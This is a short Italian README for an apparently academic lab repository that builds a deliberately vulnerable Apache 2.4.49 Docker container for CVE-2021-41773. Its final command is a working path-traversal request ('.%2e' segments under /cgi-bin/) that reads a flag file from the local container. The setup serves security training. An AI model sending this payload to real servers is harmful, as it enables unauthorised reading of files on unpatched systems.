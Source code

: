 # vulnerable_docker_apache_2_4_49

Repository per scopi accademici.

Docker per l'exploit della vulnerabilità **CVE-2021-41773**.

Per maggiori informazioni: **https://github.com/BlueTeamSteve/CVE-2021-41773**

Credits to: **https://github.com/BlueTeamSteve**

DockerHub Link: **https://hub.docker.com/repository/docker/m96dg/pw_apache_2_4_49**

'''bash
docker build . -t cyberhack2021pw4/massimo_vulnerable_docker_apache_2_4_49
docker run -it --rm -p 80:80 cyberhack2021pw4/massimo_vulnerable_docker_apache_2_4_49
curl http://localhost:80/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt
'''
